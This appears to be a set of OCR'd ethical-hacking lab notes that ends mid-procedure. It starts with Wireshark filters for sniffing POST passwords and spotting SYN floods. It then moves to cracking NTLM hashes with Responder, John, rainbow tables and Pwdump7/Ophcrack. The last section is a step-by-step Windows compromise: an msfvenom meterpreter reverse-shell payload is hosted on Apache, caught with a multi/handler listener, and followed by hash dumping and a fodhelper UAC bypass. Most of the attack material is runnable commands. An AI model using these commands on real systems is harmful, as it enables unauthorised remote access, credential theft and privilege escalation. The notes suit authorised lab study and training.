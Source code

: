 ------------------------------------------------------------------------------------------------
SNIFFING:

•  http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request 
•  Capture traffic from remote interface via wireshark
•	Capture > Options > Manage Interfaces 
•	Remote Interface > Add > Host & Port (2002)
•	Username & password > Start
Password Sniffing using Wireshark- In pcap file apply filter: http.request.method==POST (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.

----------------------------------------------------------------------------------------------------------------
WIRESHARK DDOS & DOS :
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
To find DOS (SYN and ACK) : tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
----------------------------------------------------------------------------------------------------------------
System Hacking
NTLM Hash crack :
•	responder -I eth0
•	usr\share\responder\logs --> Responder log location
•	john /usr/share/responder/logs/ntlm.txt
Rainbowtable crack using Winrtgen :
•	Open winrtgen and add new table
•	Select ntlm from Hash dropdown list.
•	Set Min Len as 4, Max Len as 6 and Chain Count 4000000
•	Select loweralpha from Charset dropdown list (it depends upon Password).
•	rcrack_gui.exe to crack hash with rainbow table
Hash dump with Pwdump7 and crack with ohpcrack :
•	In cmd ‘wmic useraccount get name,sid ‘ -1-> Get user acc names and SID  cd C:\Users\Admin\Desktop\pwdump7
•	PwDump7.exe > c:\hashes.txt
•	Replace boxes in hashes.txt with relevant usernames from step 1.
•	Ophcrack.exe -> load -> PWDUMP File
•	Tables -> Vista free -> select the table directory -> crack
HACKING WINDOWS AND ESCALATING PRIVILEGES:
- `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe`
- Shared Folder Creation:
    - `mkdir /var/www/html/share`
    - `chmod -R 755 /var/www/html/share/`
    - `chown -R www-data:www-data /var/www/html/share/`
    - `ls -la /var/www/html/ | grep share`
- `service apache2 start`
- `cp /root/Desktop/Exploit.exe /var/www/html/share/`
- `msfconsole` → `use exploit/multi/handler` → `set payload windows/meterpreter/reverse_tcp` → `set LHOST 10.10.10.11` → `exploit -j -z`(start the listener)
- go to Windows 10 machine, open a browser and in the address bar type http://10.10.10.11/share, Click Exploit.exe file to download, double-click the executable to run it
type `sessions -i 1` 
- **get the Server username** - `getuid`
- `run post/windows/gather/smart_hashdump` → command fails to dump the password hashes because of insufficient privileges
- **attempt to elevate the user privileges** - `getsystem -t 1` → this command uses the **Service - Named Pipe Impersonation (In Memory/Admin) Technique →** it fails to escalate the privileges
- background the meterpreter session - `background`
- `use exploit/windows/local/bypassuac_fodhelper`
- `set SESSION 1` (1 is the current meterpreter session which was backgrounded)
- `set payload windows/meterpreter/reverse_tcp`